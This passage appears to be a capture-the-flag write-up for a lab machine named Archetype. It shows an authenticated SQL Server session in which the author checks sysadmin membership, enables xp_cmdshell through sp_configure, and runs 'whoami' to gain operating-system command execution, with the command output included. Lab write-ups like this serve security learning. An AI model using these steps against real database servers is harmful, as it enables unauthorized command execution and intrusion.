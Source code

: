```bash
```

Let's try the xp_cmdshell :

```bash
SQL (ARCHETYPE\sql_svc  dbo@master)> EXEC xp_cmdshell 'net-user'
ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```

So we need to activate it, first we check our role on the server :

```bash
SQL (ARCHETYPE\sql_svc  dbo@master)> SELECT is_srvrolemember('sysadmin');
    
-   
1   #True
```

So we are Admin users and we can activate the xp_cmdshell,

Follow these steps :
```
EXECUTE sp_configure 'show advanced options',1;  
RECONFIGURE;  
EXECUTE sp_configure 'xp_cmdshell',1;  
RECONFIGURE;
```

Now try running :

```
xp_cmdshell "whoami"
```

Now it’s working and this command will return us “archetype/sql_svc” :

```bash
SQL (ARCHETYPE\sql_svc  dbo@master)> EXECUTE sp_configure 'show advanced options',1;
INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (ARCHETYPE\sql_svc  dbo@master)> RECONFIGURE; 
SQL (ARCHETYPE\sql_svc  dbo@master)> EXECUTE sp_configure 'xp_cmdshell',1;
INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (ARCHETYPE\sql_svc  dbo@master)> RECONFIGURE;
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "whoami"
output              
-----------------   
archetype\sql_svc   

NULL                

```
